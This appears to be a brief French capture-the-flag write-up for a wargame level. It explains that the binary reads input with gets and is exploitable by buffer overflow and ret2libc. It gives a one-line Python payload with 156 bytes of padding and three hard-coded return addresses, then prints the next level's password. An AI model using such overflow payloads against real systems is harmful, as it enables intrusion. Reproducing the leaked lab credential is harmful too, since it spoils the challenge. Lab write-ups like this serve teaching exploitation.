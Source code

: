 ## GET Flag

Au lancement du programme, le binaire nous demande un shellcode.

Le binaire utilise gets.

Il est possible de réaliser une attaque par buffer overflow et un ret2libc

`python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\xc4\x45\xee\xf7" + "\xec\x97\xf8\xf7"'  > /tmp/level04`

### Flag

```
level05
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
